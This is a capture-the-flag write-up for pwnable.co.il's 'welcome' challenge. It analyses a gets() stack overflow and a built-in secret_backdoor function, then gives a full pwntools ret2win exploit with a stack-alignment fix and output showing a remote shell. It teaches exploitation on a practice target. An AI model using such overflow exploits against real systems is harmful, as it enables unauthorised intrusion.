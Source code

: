 # welcome Writeup

## Challenge infos

```text
Welcome to Pwnable.co.il!
I hope you'll like this one...

Challenge is running at: nc pwnable.co.il 9000
```

## Executable analysis
### checksec output
```text
        Arch:       amd64-64-little
        RELRO:      🟡 Partial RELRO
        Stack:      🔴 No canary found
        NX:         🟢 NX enabled
        PIE:        🔴 No PIE (0x400000)
        Stripped:   🔴 No
```
* as we can see, the binary is not PIE, has no canary, and the NX bit is enabled.
* this means that we know the address of all symbols in the binary, we can use ROP to execute code, but cannot run shellcode on the stack.
### main disassembly
```asm
   0x0000000000400719 <+0>:     push   rbp
   0x000000000040071a <+1>:     mov    rbp,rsp
   0x000000000040071d <+4>:     sub    rsp,0x20
   0x0000000000400721 <+8>:     mov    eax,0x0
   0x0000000000400726 <+13>:    call   0x4006a7 <init_buffering>
   0x000000000040072b <+18>:    mov    edi,0x4007f8
   0x0000000000400730 <+23>:    call   0x400590 <puts@plt>
   0x0000000000400735 <+28>:    mov    edi,0x400812
   0x000000000040073a <+33>:    call   0x400590 <puts@plt>
   0x000000000040073f <+38>:    lea    rax,[rbp-0x20]
   0x0000000000400743 <+42>:    mov    rdi,rax
   0x0000000000400746 <+45>:    mov    eax,0x0
   0x000000000040074b <+50>:    call   0x4005c0 <gets@plt>
   0x0000000000400750 <+55>:    lea    rax,[rbp-0x20]
   0x0000000000400754 <+59>:    mov    rsi,rax
   0x0000000000400757 <+62>:    mov    edi,0x400825
   0x000000000040075c <+67>:    mov    eax,0x0
   0x0000000000400761 <+72>:    call   0x4005b0 <printf@plt>
   0x0000000000400766 <+77>:    mov    eax,0x1
   0x000000000040076b <+82>:    leave
   0x000000000040076c <+83>:    ret
```
* the main function is pretty simple, it prints a welcome message, reads input from the user, and then prints it back.
* we can see that the input is read into a buffer on the stack, which is 32 bytes long (0x20).
* but the gets function is used to read the input, which is dangerous because it does not check the length of the input, allowing us to overflow the buffer.
### symbols
```text
Non-debugging symbols:
0x0000000000400568  _init
0x0000000000400590  puts@plt
0x00000000004005a0  system@plt
0x00000000004005b0  printf@plt
0x00000000004005c0  gets@plt
0x00000000004005d0  setvbuf@plt
0x00000000004005e0  _start
0x0000000000400610  deregister_tm_clones
0x0000000000400640  register_tm_clones
0x0000000000400680  __do_global_dtors_aux
0x00000000004006a0  frame_dummy
0x00000000004006a7  init_buffering
0x0000000000400708  secret_backdoor
0x0000000000400719  main
0x0000000000400770  __libc_csu_init
0x00000000004007d0  __libc_csu_fini
0x00000000004007d4  _fini
```
* we can see that the binary has a function called `secret_backdoor`, which is not called anywhere in the code.
* this function is a good candidate for exploitation, as it is not protected by any security mechanisms and can be called directly.

### secret_backdoor disassembly
```asm
   0x0000000000400708 <+0>:     push   rbp
   0x0000000000400709 <+1>:     mov    rbp,rsp
   0x000000000040070c <+4>:     mov    edi,0x4007f0
   0x0000000000400711 <+9>:     call   0x4005a0 <system@plt>
   0x0000000000400716 <+14>:    nop
   0x0000000000400717 <+15>:    pop    rbp
   0x0000000000400718 <+16>:    ret
```
* the `secret_backdoor` function simply calls the `system` function with the argument `"/bin/sh"`, which will spawn a shell.
* this means that if we can call this function, we can get a shell.

### first exploit attempt
* let's try to exploit the binary by overflowing the buffer and calling the `secret_backdoor` function directly.
* we can do this by sending a payload that overflows the buffer and overwrites the return address with the address of the `secret_backdoor` function.
* the payload will look like this:
```python
io = start()

secret_backdoor = exe.sym['secret_backdoor']
payload = fit({
    40: p64(secret_backdoor)  # Call secret_backdoor
})

io.sendline(payload)
io.interactive()
```
* the out put looks like this:
```text
[+] Starting local process '/home/omri/dev/pwn-writeups/il/welcome/welcome': pid 31119
[*] Switching to interactive mode
Welcome to pwnable.co.il!
What is your name?
Thank you aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\x08\x07@!
[*] Got EOF while reading in interactive
$ 
[*] Process '/home/omri/dev/pwn-writeups/il/welcome/welcome' stopped with exit code -11 (SIGSEGV) (pid 31119)
[*] Got EOF while sending in interactive
```
* we got a segmentation fault, which means that the payload is not correct.
* let's try to debug the binary and see what is going wrong.
### debugging the binary
* we can use gdb to debug the binary and see what is going wrong.
![gdb output](gdb.png)
* as we can see, the payload is not being executed correctly, and the program is crashing at movaps instruction.
* this is because the stack is not aligned correctly, and the `movaps` instruction requires the stack to be 16-byte aligned.
### Fixing the stack alignment issue
* we can fix this by moving the stack 8 bytes down before the payload, so that the stack is 16-byte aligned.
* we can do this by returning to the `main` function after the payload, which will move the stack 8 bytes down.
### Final exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template welcome
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'welcome')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: # ./exploit.py REMOTE
        return remote('pwnable.co.il', 9000, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

secret_backdoor = exe.sym['secret_backdoor']
main_ret = exe.sym['main'] + exe.functions['main'].size - 1
payload = fit({
    40: p64(main_ret),  # Return to main
    48: p64(secret_backdoor)  # Call secret_backdoor
})

io.sendline(payload)
io.interactive()
```
* now, when we run the exploit, we should get a shell.
```
[+] Opening connection to pwnable.co.il on port 9000: Done
[*] Switching to interactive mode
Welcome to pwnable.co.il!
What is your name?
Thank you aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaal\x07@!
$ ls
flag.txt
welcome
ynetd
$ cat flag.txt
PWNIL{flag_is_here}
```